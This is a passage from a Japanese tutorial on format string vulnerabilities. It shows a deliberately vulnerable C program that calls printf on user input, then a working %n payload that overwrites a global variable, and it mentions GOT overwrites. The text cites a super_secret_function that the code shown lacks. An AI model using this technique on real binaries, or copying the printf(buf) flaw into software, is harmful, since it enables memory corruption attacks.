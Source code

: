 ### 2.3 Overwrite a dword:) 
　前節では%pや%sによるスタック上や任意のアドレスを指定してのInformation Leakの手法を説明した. 任意のメモリの読み込みができるのなら, 次は任意のメモリの書き込みを行いたいところである. `printf()`系の関数群には"%n"という書式指定子が存在する. これを用いると, 「"%n"を処理するまでに表示したバイト数」を"%n"に対応するパラメータに書き込むことができる. このとき, "%[X]$n"というようにして"[X]"で対応するアドレスの位置を指定する.     
　上の説明だけでは理解しがたいと思われるので, 例を示しながら説明していく. 次のコードはどこからも呼ばれない`super_secret_function()`という関数がある.   
``` c
#include <stdio.h>

int wallet = 100; // $100

int main()
{
    char buf[80];

    printf("plz, tell me yo name: ");
    fgets(buf, 80, stdin);

    printf("Hi, ");
    printf(buf); // I'm here XD

    printf("You have $%d!!\n", wallet);

    return 0;
}
```  
これを実行すると,   
``` sh
plz, tell me yo name: hhc0null
Hi, hhc0null
You have $100!!
```
となる. ここでwalletの値を書き換えることを考えよう. このときに必要になる情報として, 変数walletのアドレスとスタック上においての配列bufの位置がある.   
　まず, 変数walletのアドレスを特定する. objdumpの結果から,   
``` sh
sh-4.3$ objdump -sj .data fsb_overwrite    

fsb_overwrite:     file format elf32-i386

Contents of section .data:
 8049788 00000000 00000000 64000000           ........d...    
```
100は16進数で0x64であることから, 変数walletは0x8049790にあることがわかる.   
　ここで, "%500xXXXXPPP\x90\x97\x04\x08"という文字列を`fgets()`に入力した場合, FSBのある`printf()`実行前のスタックがどうなっているかを観察しよう. ここで"PPP"はアドレスを4バイト境界に合わせるためのパディングである.    
![fsb_overwrite.png](https://raw.githubusercontent.com/hhc0null/fsb_data/master/fsb_overwrite.png "fsb overwrite")    
したがって, 一番最初に来る赤枠で囲われた部分から数えて, アドレス0x8049790は7つめに来るので"XXXX"は"%7$n"と決定する. これを踏まえて実行すると,   
``` sh
sh-4.3$ echo -e "%500x%7\$nPPP\x90\x97\x04\x08" > input
sh-4.3$ ./fsb_overwrite < input 
plz, tell me yo name: Hi,                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   50PPP��
You have $500!!
```
と, 100だったものが500になる. この上書きの手法を利用するとNo(Partial) RELROなバイナリである場合において.got.pltにあるエントリを上書きし, 任意の関数を呼ぶなどができるようになる.    
